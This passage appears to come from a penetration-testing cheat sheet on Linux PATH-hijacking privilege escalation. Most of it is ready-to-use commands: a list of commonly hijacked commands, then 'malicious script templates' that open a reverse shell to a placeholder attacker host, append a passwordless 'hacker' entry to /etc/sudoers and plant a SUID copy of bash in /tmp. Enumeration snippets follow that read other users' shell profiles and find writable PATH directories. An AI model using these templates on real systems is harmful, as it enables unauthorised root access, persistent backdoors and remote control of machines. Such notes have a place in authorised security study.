 ### Common Target Commands
```bash
# Most frequently hijacked commands
ls, ps, id, whoami, cat, cp, mv, rm, chmod, chown
```

### Malicious Script Templates
```bash
# Simple privilege escalation
#!/bin/bash
/bin/bash

# Reverse shell
#!/bin/bash
bash -i >& /dev/tcp/attacker_ip/4444 0>&1

# Add user to sudoers
#!/bin/bash
echo "hacker ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers

# Copy /bin/bash to writable location with SUID
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod 4755 /tmp/rootbash
```

## 🔍 Enumeration Techniques

### PATH Analysis
```bash
# Current user PATH
echo $PATH

# Other users' PATH (from environment)
cat /home/*/.bashrc | grep PATH
cat /home/*/.profile | grep PATH

# System-wide PATH settings
cat /etc/environment
cat /etc/profile
```

### Writable Directory Detection
```bash
# Check PATH directories for write permissions
echo $PATH | tr ':' '\n' | while read dir; do
    if [ -w "$dir" 2>/dev/null ]; then
        echo "WRITABLE: $dir"
    fi
done

# Alternative one-liner
echo $PATH | tr ':' '\n' | xargs -I {} sh -c 'test -w "{}" && echo "Writable: {}"'
```
